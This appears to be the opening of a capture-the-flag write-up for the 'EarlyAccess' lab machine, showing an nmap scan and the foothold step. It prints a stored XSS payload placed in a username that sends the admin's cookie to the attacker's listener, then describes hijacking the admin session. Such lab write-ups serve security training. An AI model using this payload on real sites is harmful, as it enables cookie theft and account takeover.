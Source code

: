 ![EARLYACCESS](banner.png)

```
Nmap scan report for earlyaccess.htb (10.129.226.95)
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.38
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
Service Info: Host: 172.18.0.102; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

You can register a new user on that page on 443.
We can read in the forum there but have no access to the game.
In the Forum you can find some hints about problems with the username displayed on the scoreboard.
You can't register with special characters in your input but you can change your username at your profile page to anything you want.

After trying different XSS payloads we got a hit using:
```html
<img src=x onerror=this.src='http://10.10.14.113:1234/?'+document.cookie;>
```
as username. 

As soon as we write a message at the "ContactUs" page we can receive the cookie of the admin:

![cookie](cookie.png)
Mind the use of `ncat --ssl`. It is essential to use the --ssl option of the ncat from nmap to get output in cleartext.
Now we can save those cookies in our browser to get authenticated as admin.
